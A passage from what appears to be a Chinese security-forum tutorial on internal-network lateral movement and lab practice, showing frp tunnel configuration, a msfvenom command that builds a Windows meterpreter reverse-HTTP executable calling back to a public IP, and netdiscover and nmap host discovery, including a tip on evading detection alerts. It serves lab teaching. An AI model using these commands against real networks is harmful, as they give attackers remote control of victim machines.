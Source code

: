 ## [](https://bbs.pediy.com/thread-268289.htm)6.5 frp实现内网穿透

服务端默认监听端口是7000，执行命令，启动服务端 ./frps -c ./frps.ini  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_SYZ7DKFHGMAZBGS.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_ADBHQ5B6V5RXNDF.png)  
启动客户端frpc配置文件:  
[msf]  
type = tcp  
local_ip = 本地ip地址  
local_port = 22222 转发给本机的22222端口，也就是msf的监听端口  
remote_port = 6000 服务端打开6000端口进行监听  
执行命令连接服务端：./frpc -c ./frpc.ini  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_XEPPT8DSRAPMJ5C.png)  
服务端显示有客户端连接：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_DREBEB9WEBZSMUR.png)  
服务端开启6000端口进行监听  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_JV8NVHRRYDKN8JM.png)  
Msf生成exe文件：  
msfvenom -p windows/meterpreter/reverse_http lhost=公网ip lport=公网ip监听的端口 -f exe
-o h4.exe  
执行exe上线：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_2TFZJ6EX3UM3HVF.png)

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%B8%83%E3%80%81%E9%9D%B6%E5%9C%BA%E5%AE%9E%E8%B7%B5)七、靶场实践

## [](https://bbs.pediy.com/thread-268289.htm)7.1 信息收集

这个靶场是月师傅所搭，我们用这个靶场作为实践，靶场拓扑图：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_3XX42FRFCWAD877.png)  
先进行主机发现，方法有许多，分别是基于层面和工具上的不同：  
1、使用netdiscover  
sudo netdiscover -i eth0 -r 192.168.202.0/24  
专用的二层发现工具。拥有主动和被动发现两种方式。  
常用参数:  
-i：网卡 选择你监控的网卡。比如eth0  
-r：range 指定IP段。比如192.168.0.0/24  
-l：filename 从文件读取range列表  
-p 被动模式。默默的侦听指定的网卡以发现别的二层主机  
-t ARP包发送间隔。单位毫秒。这个可以用来规避检测系统的告警。  
-c 发包数量  
2、使用nmap  
nmap -v -sP 192.168.202.0/24  
以上参数：  
-sP、ICMP扫描： 类似于ping检测，快速判断目标主机是否存活，不做其他扫描  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_S7VQR4YCFHUZVR6.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_9YQK4ST92HFNV56.png)  
3、使用系统自带ping(速度稍慢)  